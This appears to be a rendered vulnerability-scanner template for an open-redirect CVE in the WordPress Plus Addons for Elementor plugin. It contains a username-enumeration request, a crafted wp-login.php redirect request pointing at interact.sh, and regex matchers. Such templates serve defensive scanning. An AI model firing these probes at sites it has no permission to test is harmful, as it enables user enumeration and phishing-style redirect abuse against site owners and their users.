 ## Description

- WordPress Plus Addons for Elementor Page Builder before 4.1.10 did not validate a redirect parameter on a specifically crafted URL before redirecting the user to it, leading to an open redirect issue.
- severity - medium
- tags - wp,wpscan,cve,cve2021,wordpress,redirect,wp-plugin,elementor

## Requests

### Step - 1

```
GET /?author=1 HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
GET /wp-login.php?action=theplusrp&key=&redirecturl=http://interact.sh&forgoturl=http://interact.sh&login={{username}} HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - regex**

- part - header
- regex
  1. (?m)^(?:Location\s*?:\s*?)(?:https?:\/\/|\/\/|\/\\\\|\/\\)?(?:[a-zA-Z0-9\-_\.@]_)interact\.sh\/?(\/|[^.]._)?$

### Extractors

**Type - regex**

- part - body
- name - username
- internal - True
- group - 1
- regex
  1. Author:(?:[A-Za-z0-9 -\_="]+)?\<span(?:[A-Za-z0-9 -\_="]+)?>([A-Za-z0-9]+)\<\/span>

**Type - regex**

- part - header
- name - username
- internal - True
- group - 1
- regex
  1. ion: https:\/\/[a-z0-9.]+\/author\/([a-z]+)\/

---